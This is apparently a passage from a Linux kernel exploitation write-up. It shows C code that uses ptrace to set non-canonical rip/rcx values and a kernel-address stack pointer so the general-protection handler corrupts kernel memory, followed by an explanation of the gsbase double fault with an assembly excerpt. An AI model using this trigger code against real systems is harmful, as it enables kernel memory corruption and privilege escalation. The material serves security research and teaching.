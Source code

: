 ```c
    if (chld == 0) {
        if (ptrace(PTRACE_TRACEME, 0, 0, 0) != 0) {
            perror("PTRACE_TRACEME");
            exit(1);
        }

        raise(SIGSTOP);
        fork();
        return 0;
    }

    waitpid(chld, &status, 0);

    ptrace(PTRACE_SETOPTIONS, chld, 0, PTRACE_O_TRACEFORK);
    ptrace(PTRACE_CONT, chld, 0, 0);

    waitpid(chld, &status, 0);

    regs.rip = 0x8000000000000000; // not-canonical
    regs.rcx = 0x8000000000000000; // not-canonical
    regs.rsp = addr;

    // necessary stuff
    regs.eflags = 0x246;
    regs.r11 = 0x246;
    regs.ss = 0x2b;
    regs.cs = 0x33;

    ptrace(PTRACE_SETREGS, chld, NULL, &regs);
    ptrace(PTRACE_CONT, chld, 0, 0);
    ptrace(PTRACE_DETACH, chld, 0, 0);
}
```

The whole point of triggering this bug is to cause memory corruption through the register dump that occurs in the GP handler, so I tried setting my stack pointer to some writeable kernel data structures to see if I could hijack them. Stepping through the GP handler I could see that it did exactly that! until it all came crashing down...

## surviving the bug

Triggering the bug with a target kernel address in rsp was failing because of a double fault caused by the GP handler unexpectedly executing with user space's gsbase.

The gsbase register is used on Linux to access percpu variables. In the Linux source code it is used by the `current` macro to locate the current task struct, for example. On kernel entry and exit the `swapgs` instruction is executed to switch back and forth between the kernel and user gsbase values since user space is allowed to use a gs segment as well.

e.g. in `entry_SYSCALL_64`:

```nasm
entry_SYSCALL_64:
    swapgs
    mov    QWORD PTR gs:0x6014,rsp
...
    swapgs
    sysretq
```
